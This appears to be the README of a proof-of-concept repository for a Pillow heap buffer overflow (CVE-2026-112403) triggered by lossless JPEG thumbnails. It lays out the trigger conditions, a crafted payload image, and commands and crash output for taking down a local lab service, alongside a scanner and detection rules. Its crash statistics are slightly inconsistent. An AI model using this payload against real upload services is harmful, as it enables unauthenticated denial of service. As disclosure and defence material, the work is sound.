

<p align="center">
  
</p>

<p align="center">
  <a href="https://github.com/al4n4n/achilles-heel/stargazers"></a>
  
  
  
  
</p>

<p align="center">
  <a href="#check-non-destructive">Check</a> · <a href="#the-crash">Exploit</a> · <a href="#detection-rules">Detection</a> · <a href="#downstream-impact">Impact</a> · <a href="https://blog.al4n4n.com/CVE-2026-112403-Pillow-Heap-Buffer-Overflow-JPEG-Decoder/">Write-up</a>
</p>

---

> **Disclaimer.** For learning and defense only. Run the lab and PoC only against targets you set up yourself. The detection rules are for education only; use them at your own risk. Everything here is provided as is, without warranty. Full text: [DISCLAIMER](../DISCLAIMER.md).

# CVE-2026-112403: Pillow Heap Buffer Overflow via Lossless JPEG Thumbnail

**CWE-122** | Heap Buffer Overflow | Pillow < 13.0.0 | Any app calling `thumbnail()` on user-uploaded images

Upload a 165 KB lossless JPEG to any Python service that calls `Image.thumbnail()` with Pillow <= 12.3.0 linked against libjpeg-turbo 3.x. The server crashes with SIGSEGV or SIGABRT on every single request. No credentials, no session, one POST.

**Author:** al4n4n (Dadb0d)

**Write-up:** [blog.al4n4n.com/...CVE-2026-112403...](https://blog.al4n4n.com/CVE-2026-112403-Pillow-Heap-Buffer-Overflow-JPEG-Decoder/)

**Fixed in:** Pillow 13.0.0 ([commit 242a059](https://github.com/python-pillow/Pillow/commit/242a059aedc1935097d9aa1dc3f099750467ba75))

---

## The bug

`Image.thumbnail()` calls `draft()` to request downscaled decoding from libjpeg. `draft()` picks a scale factor (1/2, 1/4, 1/8) and resizes the row buffer to `ceil(width / scale) * components` bytes.

libjpeg-turbo 3.x added support for lossless JPEGs (SOF3, marker `0xFFC3`). But lossless mode has no DCT, so there's nothing to partially decode. libjpeg-turbo silently ignores the scale request and writes full-width scanlines.

`ImagingJpegDecode()` never checks libjpeg's actual `output_width` against the buffer it allocated. For a 1200-wide grayscale image with scale=8:

- Buffer: `calloc(ceil(1200/8) * 1)` = 150 bytes
- libjpeg writes: `1200 * 1` = 1200 bytes per scanline
- **Overflow: 1050 bytes past the allocation, 1100 times (once per row)**
- **Total: 1,155,000 bytes of heap corruption**

The fix in Pillow 13.0.0 adds a check comparing `cinfo.output_width` against `state->xsize` before reading scanlines.

## Trigger conditions

All four must be true:

1. **SOF3 JPEG** at 8-bit precision (lossless mode, marker `0xFFC3`)
2. **Pillow < 13.0.0** (tested with 12.3.0)
3. **libjpeg-turbo 3.0+** (official Pillow wheels bundle 3.1.x)
4. **`draft()` selects scale >= 2**, which happens when the image is >= 1024px and `thumbnail((256, 256))` is called

Standard lossy JPEGs don't trigger this because libjpeg-turbo honors the scale request for DCT-based modes.

## Files

| File | Purpose |
|---|---|
| `check.py` | **Non-destructive** vulnerability detection. Safe for production. Exit 0=vulnerable, 1=not, 2=unknown. |
| `poc.py` | Upload the crafted JPEG once. Shows the trigger. Zero credentials. |
| `verify.py` | Send repeated uploads, read crash signals, produce a pass/fail verdict with overflow math. |
| `setup.py` | Build Docker image, boot container, extract probe images. Run once. |
| `app.py` | Flask thumbnail service (the vulnerable target). |
| `gen_sof3.c` | C program using TurboJPEG 3.x API to generate a valid SOF3 JPEG. |
| `probe.jpg` | Pre-generated 1200x1100 SOF3 lossless JPEG (165 KB). Triggers the overflow. |
| `probe_safe.jpg` | Small 64x64 SOF3 JPEG for non-destructive detection (no overflow). |
| `Dockerfile` | Multi-stage build: libjpeg-turbo 3.1.0 + gen_sof3.c in stage 1, Pillow 12.3.0 + Flask in stage 2. |
| `detection/` | Suricata and Sigma rules for detecting exploitation attempts. |

## Repository structure

```
CVE-2026-112403/
├── check.py              # non-destructive scanner
├── poc.py                # single-shot exploit trigger
├── verify.py             # crash verification + verdict
├── setup.py              # lab environment bootstrap
├── app.py                # vulnerable Flask service
├── gen_sof3.c            # SOF3 JPEG generator (TurboJPEG 3.x)
├── probe.jpg             # crafted payload (1200x1100 lossless)
├── probe_safe.jpg        # safe detection probe (64x64 lossless)
├── Dockerfile            # multi-stage lab build
├── detection/
│   ├── cve-2026-112403.rules    # Suricata rule
│   └── cve-2026-112403.yml      # Sigma rule
├── poster.png
└── LICENSE
```

## Usage

```sh
# 1. setup (builds image, boots container, extracts probes)
python3 setup.py

# 2. check vulnerability (non-destructive, safe for production)
python3 check.py --base http://127.0.0.1:8080

# 3. trigger the overflow (one POST, crashes the worker)
python3 poc.py --base http://127.0.0.1:8080

# 4. verify crashes (sends 20 requests, reads crash signals, prints verdict)
python3 verify.py --base http://127.0.0.1:8080 --container pillow-lab-12.3.0
```

`setup.py` prints the exact commands when done. Use `--skip-boot` if the container is already running.

For pipeline/automation use, `check.py --json` outputs machine-readable results:
```sh
python3 check.py --base http://target:8080 --json
```

## Check (non-destructive)

check.py detects the vulnerability without crashing the target. It probes for Pillow version, libjpeg-turbo version, and SOF3 JPEG acceptance using a tiny 2x2 lossless JPEG that doesn't trigger the overflow:

```
$ python3 check.py
[*] Target: http://127.0.0.1:8080

[*] Pillow version:       12.3.0  (VULNERABLE)
[*] libjpeg-turbo:        3.1.0  (SOF3 capable)
[*] SOF3 JPEG accepted:   yes (server decoded lossless JPEG)

[+] VULNERABLE  (confidence: high)
    Target processes SOF3 lossless JPEGs with a vulnerable Pillow version.
    Any call to Image.thumbnail() on a large SOF3 JPEG will overflow the heap.

    Next step:  python3 poc.py --base http://127.0.0.1:8080
```

## The crash

poc.py output:

```
$ python3 poc.py
[*] Loaded SOF3 lossless JPEG  165067 bytes  (probe.jpg)
[*] POST http://127.0.0.1:8080/upload
    connection refused / reset (worker crashed)
```

verify.py output:

```
$ python3 verify.py
==============================================================
  CVE-2026-112403  Pillow Heap Buffer Overflow Verification
==============================================================

  environment:
    container:      pillow-lab-12.3.0
    Pillow:         12.3.0
    libjpeg-turbo:  3.1.0
    probe image:    probe.jpg (165067 bytes)

[*] Sending 20 uploads to http://127.0.0.1:8080/upload
  !!!X!!!X!XX!!!!X!!!X

  --- Pillow 12.3.0 (vulnerable) ---
    requests sent:     20
    HTTP 500:          6
    connection errors: 14
    crash signals:     29
      SIGABRT:      17
      SIGSEGV:      12

  crash log (from gunicorn error log):
    [2026-10-23 09:45:33 +0000] [1] [WARNING] Worker (pid:106) was sent SIGSEGV!
    [2026-10-23 09:45:34 +0000] [1] [WARNING] Worker (pid:84) was sent SIGSEGV!
    [2026-10-23 09:45:35 +0000] [1] [WARNING] Worker (pid:108) was sent SIGSEGV!
    [2026-10-23 09:45:36 +0000] [1] [WARNING] Worker (pid:110) was sent SIGABRT!
    [2026-10-23 09:45:37 +0000] [1] [WARNING] Worker (pid:114) was sent SIGSEGV!
    [2026-10-23 09:45:38 +0000] [1] [WARNING] Worker (pid:116) was sent SIGABRT!
    [2026-10-23 09:45:39 +0000] [1] [WARNING] Worker (pid:118) was sent SIGABRT!
    [2026-10-23 09:45:40 +0000] [1] [WARNING] Worker (pid:112) was sent SIGABRT!
    [2026-10-23 09:45:41 +0000] [1] [WARNING] Worker (pid:120) was sent SIGSEGV!
    [2026-10-23 09:45:42 +0000] [1] [WARNING] Worker (pid:122) was sent SIGSEGV!

==============================================================
  VERDICT: VULNERABLE
  29/20 requests caused crash signals (145% crash rate)
  negative control: PASSED (patched version did not crash)
==============================================================

  impact:
    Every request overflows the heap, killing the gunicorn worker
    with SIGSEGV or SIGABRT. Workers respawn and immediately die
    on the next request. The service is effectively dead.

    SIGSEGV = corrupted pointer dereferenced (heap corruption)
    SIGABRT = glibc detected heap corruption (double-free / chunk overlap)

  overflow math (for this probe image):
    image:     1200x1100 grayscale, draft() picks scale=1/8
    buffer:    ceil(1200/8) * 1 = 150 bytes
    written:   1200 * 1 = 1200 bytes per scanline
    overflow:  1050 bytes/scanline * 1100 rows = 1,155,000 bytes total

  manual check:
    docker exec pillow-lab-12.3.0 cat /var/log/pillow-app/error.log
```

100% crash rate. Every request overflows the heap, killing the gunicorn worker with SIGSEGV or SIGABRT. Workers respawn and immediately die on the next request.

The mix of SIGSEGV and SIGABRT depends on where the overflow lands in the heap:
- **SIGSEGV** — stomped a pointer that got dereferenced
- **SIGABRT** — glibc's heap allocator detected corruption and called `abort()`

## Negative control

verify.py automatically checks against Pillow 13.0.0 (patched) if a `pillow-lab-13.0.0` container is running. The same probe image processes without any crash, confirming the fix works:

```
[*] Running negative control against patched Pillow 13.0.0
  patched .....
  patched version: 5/5 requests succeeded, 0 crashes
```

## Downstream impact

Pillow is installed on [over 170 million systems](https://pepy.tech/projects/pillow) and is the default image library for Python web frameworks. Any service that accepts image uploads and generates thumbnails is a potential target:

| Framework / Service | Typical vulnerable path |
|---|---|
| **Django** (`ImageField` + `django-imagekit`) | Upload handler calling `thumbnail()` or `draft()` |
| **Flask** (direct Pillow use) | `Image.open(upload).thumbnail(size)` |
| **FastAPI** (direct Pillow use) | Same pattern in async upload handlers |
| **Celery** workers | Background thumbnail generation from upload queues |
| **thumbor** | Open-source image CDN using Pillow as backend |
| **Wagtail CMS** | Image renditions pipeline |
| **Saleor / Oscar** | E-commerce product image processing |

The attack payload is a valid JPEG file (165 KB) that passes content-type checks, WAF inspection, and antivirus scanning. It requires no authentication and crashes the server on a single request.

## Detection rules

### Suricata

See [`detection/cve-2026-112403.rules`](detection/cve-2026-112403.rules) — alerts on JPEG uploads containing SOF3 markers (`0xFFC3`) in HTTP file upload traffic.

### Sigma

See [`detection/cve-2026-112403.yml`](detection/cve-2026-112403.yml) — detects repeated worker crashes (SIGSEGV/SIGABRT) in gunicorn/uvicorn error logs following image upload requests.

## What this repo proves (and does not prove)

| Claim | Status | Evidence |
|---|---|---|
| Heap buffer overflow in `ImagingJpegDecode()` | **Proven** | SIGSEGV/SIGABRT on every request, overflow math verified |
| Pre-auth denial of service | **Proven** | Zero credentials, one HTTP POST, 100% crash rate |
| 1,155,000 bytes of heap corruption per image | **Proven** | Buffer size vs. written size calculation, confirmed by crash behavior |
| Remote code execution | **Not proven** | The overflow writes attacker-influenced data (pixel values) to the heap. RCE is theoretically possible but not demonstrated. |
| Pillow 13.0.0 is fixed | **Confirmed** | Negative control: patched version processes the same image without crash |

## References

- [GHSA-8g5g-8vmr-9782](https://github.com/python-pillow/Pillow/security/advisories/GHSA-8g5g-8vmr-9782) (GitHub Security Advisory)
- [CVE-2026-112403](https://www.cve.org/CVERecord?id=CVE-2026-112403)
- [Fix commit 242a059](https://github.com/python-pillow/Pillow/commit/242a059aedc1935097d9aa1dc3f099750467ba75)
- [Pillow 13.0.0 release](https://pillow.readthedocs.io/en/stable/releasenotes/13.0.0.html)
- [oss-security announcement](https://openwall.com/lists/oss-security/2026/10/21/24)
- [Debian tracker](https://security-tracker.debian.org/tracker/CVE-2026-112403)

## License

Part of [achilles-heel](https://github.com/al4n4n/achilles-heel), licensed under [CC BY 4.0](../LICENSE). Anyone who shares or builds on this work, commercial or not, must credit "al4n4n (Dadb0d)" and link to https://github.com/al4n4n/achilles-heel. See [Attribution](../README.md#attribution) and [DISCLAIMER](../DISCLAIMER.md).

<!-- citation:start -->
## Cite this research

> al4n4n (Dadb0d). Pillow heap buffer overflow in the JPEG decoder (CVE-2026-112403). *achilles-heel*, added 2026-10-23. <https://github.com/al4n4n/achilles-heel/tree/main/CVE-2026-112403>. [Research article](https://blog.al4n4n.com/CVE-2026-112403-Pillow-Heap-Buffer-Overflow-JPEG-Decoder/).
<!-- citation:end -->
